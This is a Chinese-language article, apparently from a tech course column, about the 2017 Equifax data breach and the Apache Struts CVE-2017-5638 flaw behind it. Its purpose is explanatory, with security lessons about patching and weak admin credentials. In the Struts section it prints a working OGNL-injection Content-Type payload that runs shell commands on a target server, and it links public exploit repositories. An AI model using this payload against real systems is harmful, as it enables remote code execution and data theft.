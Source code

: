 相信你一定有所耳闻，9月份美国知名征信公司Equifax出现了大规模数据泄露事件，致使1.43亿美国用户及大量的英国和加拿大用户受到影响。今天，我就来跟你聊聊Equifax信息泄露始末，并对造成本次事件的原因进行简单的分析。

Equifax信息泄露始末
=============

Equifax日前确认，黑客利用了其系统中未修复的Apache Struts漏洞（CVE-2017-5638，2017年3月6日曝光）来发起攻击，导致了最近这次影响恶劣的大规模数据泄露事件。

作为美国三大信用报告公司中历史最悠久的一家，Equifax的主营业务是为客户提供美国、加拿大和其他多个国家的公民信用信息。保险公司就是其服务的主要客户之一，涉及生命、汽车、火灾、医疗保险等多个方面。

此外，Equifax还提供入职背景调查、保险理赔调查，以及针对企业的信用调查等服务。由于Equifax掌握了多个国家公民的信用档案，包括公民的学前、学校经历、婚姻、工作、健康、政治参与等大量隐私信息，所以这次的信息泄露，影响面积很大，而且性质特别恶劣。

受这次信息泄露影响的美国消费者有1.43亿左右，另估计约有4400万的英国客户和大量加拿大客户受到影响。事件导致Equifax市值瞬间蒸发掉逾30亿美元。

根据《华尔街日报》（The Wall Street Journal）的观察，自Equifax在9月8日披露黑客进入该公司部分系统以来，全美联邦法院接到的诉讼已经超过百起。针对此次事件，Equifax首席执行官理查德·史密斯（Richard Smith）表示，公司正在对整体安全操作进行全面彻底的审查。

事件发生之初，Equifax在声明中指出，黑客是利用了某个“U.S. website application”中的漏洞获取文件。后经调查，黑客是利用了Apache Struts的CVE-2017-5638漏洞。

戏剧性的是，该漏洞于今年3月份就已被披露，其危险系数定为最高分10分，Apache随后发布的Struts 2.3.32和2.5.10.1版本特针对此漏洞进行了修复。而Equifax在漏洞公布后的两个月内都没有升级Struts版本，导致5月份黑客利用这个漏洞进行攻击，泄露其敏感数据。

事实上，除了Apache的漏洞，黑客还使用了一些其他手段绕过WAF（Web应用程序防火墙）。有些管理面板居然位于Shodan搜索引擎上。更让人大跌眼镜的是，据研究人员分析，Equifax所谓的“管理面板”都没有采取任何安保措施。安全专家布莱恩·克雷布斯（Brian Krebs）在其博客中爆料，Equifax的一个管理面板使用的用户名和密码都是“admin”。

由于管理面板能被随意访问，获取数据库密码就轻而易举了——虽然管理面板会加密数据库密码之类的东西，但是密钥却和管理面板保存在了一起。虽然是如此重要的征信机构，但Equifax的安全意识之弱可见一斑。

据悉，Equifax某阿根廷员工门户也泄露了14000条记录，包括员工凭证和消费者投诉。本次事件发生后，好事者列举了Equifax系统中的一系列漏洞，包括一年以前向公司报告的未修补的跨站脚本（XSS）漏洞，更将Equifax推向了风口浪尖。

Apache Struts漏洞相关
=================

Apache Struts是世界上最流行的Java Web服务器框架之一，它最初是Jakarta项目中的一个子项目，并在2004年3月成为Apache基金会的顶级项目。

Struts通过采用Java Servlet/JSP技术，实现了基于Java EE Web应用的MVC设计模式的应用框架，也是当时第一个采用MVC模式的Web项目开发框架。随着技术的发展和认知的提升，Struts的设计者意识到Struts的一些缺陷，于是有了重新设计的想法。

2006年，另外一个MVC框架WebWork的设计者与Struts团队一起开发了新一代的Struts框架，它整合了WebWork与Struts的优点，同时命名为“Struts 2”，原来的Struts框架改名为Struts 1。

因为两个框架都有强大的用户基础，所以Struts 2一发布就迅速流行开来。在2013年4月，Apache Struts项目团队发布正式通知，宣告Struts 1.x开发框架结束其使命，并表示接下来官方将不会继续提供支持。自此Apache Struts 1框架正式退出历史舞台。

同期，Struts社区表示他们将专注于推动Struts 2框架的发展。从这几年的版本发布情况来看，Struts 2的迭代速度确实不慢，仅仅在2017年就发布了9个版本，平均一个月一个。

但从安全角度来看，Struts 2可谓是漏洞百出，因为框架的功能基本已经健全，所以这些年Struts 2的更新和迭代基本也是围绕漏洞和Bug进行修复。仅从官方披露的安全公告中就可以看到，这些年就有53个漏洞预警，包括大家熟知的远程代码执行高危漏洞。

根据网络上一份未被确认的数据显示，中国的Struts应用分布在全球范围内排名第一，第二是美国，然后是日本，而中国没有打补丁的Struts的数量几乎是其它国家的总和。特别是在浙江、北京、广东、山东、四川等地，涉及教育、金融、互联网、通信等行业。

所以在今年7月，国家信息安全漏洞共享平台还发布过关于做好Apache Struts 2高危漏洞管理和应急工作的安全公告，大致意思是希望企业能够加强学习，提高安全认识，同时完善相关流程，协同自律。

而这次Equifax中招的漏洞编号是CVE-2017-5638，官方披露的信息见下图。简单来说，这是一个RCE的远程代码执行漏洞，最初是被安恒信息的Nike Zheng发现的，并于3月7日上报。

![](https://static001.geekbang.org/resource/image/00/cc/009ecfbac5741ea7ffd7fa3079a8c8cc.png)

从介绍中可以看出，此次漏洞的原因是Apache Struts 2的Jakarta Multipart parser插件存在远程代码执行漏洞，攻击者可以在使用该插件上传文件时，修改HTTP请求头中的Content-Type值来触发漏洞，最后远程执行代码。

说白了，就是在Content-Type注入OGNL语言，进而执行命令。代码如下（一行Python命令就可以执行服务器上的shell命令）：

    import requests
    requests.get("https://target", headers={"Connection": "close", "Accept": "*/*", "User-Agent": "Mozilla/5.0", "Content-Type": "%{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='dir').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"})
    

在GitHub上有相关的代码，链接为：[https://github.com/mazen160/struts-pwn](https://github.com/mazen160/struts-pwn) 或 [https://github.com/xsscx/cve-2017-5638](https://github.com/xsscx/cve-2017-5638)

注入点是在JakartaMultiPartRequest.java的buildErrorMessage函数中，这个函数里的localizedTextUtil.findText会执行OGNL表达式，从而导致命令执行（注：可以参看Struts 两个版本的补丁“2.5.10.1版补丁”“2.3.32版补丁”），使客户受到影响。

因为默认情况下Jakarta是启用的，所以该漏洞的影响范围甚广。当时官方给出的解决方案是尽快升级到不受影响的版本，看来Equifax的同学并没有注意到，或者也没有认识到它的严重性。

另外，在9月5日和7日，Struts官方又接连发布了几个严重级别的安全漏洞公告，分别是CVE-2017-9804、CVE-2017-9805、CVE-2017-9793和CVE-2017-12611。

这里面最容易被利用的当属CVE-2017-9805，它是由国外安全研究组织lgtm.com的安全研究人员发现的又一个远程代码执行漏洞。漏洞原因是Struts 2 REST插件使用带有XStream程序的XStream Handler 进行未经任何代码过滤的反序列化操作，所以在反序列化XML payloads时就可能导致远程代码执行。

![](https://static001.geekbang.org/resource/image/f8/02/f8a10b42faf789018e0a5dfadbbd0c02.png)

不过在Apache软件基金会的项目管理委员会的回应文章中，官方也对事故原因进行了分析和讨论。首先，依然不能确定泄露的源头是Struts的漏洞导致的。其次，如果确实是源于Struts的漏洞，那么原因“或是Equifax服务器未打补丁，使得一些更早期公布的漏洞被攻击者利用，或者是攻击者利用了一个目前尚未被发现的漏洞”。

根据推测，该声明提出黑客所使用的软件漏洞可能就是CVE-2017-9805漏洞，该漏洞虽然是在9月4日才由官方正式公布，但早在7月时就有人公布在网络上了，并且这个漏洞的存在已有9年。

相信通过今天的分享，你一定对Equifax的数据泄露始末及造成原因有了清楚的了解。欢迎您把你的收获和想法，分享给我。下篇文章中，我们将回顾一下互联网时代的!其他大规模数据泄露事件，并结合这些事件给出应对方案和技术手段。

![](https://static001.geekbang.org/resource/image/fc/e9/fcc761001867c60f526665e237f831e9.jpg)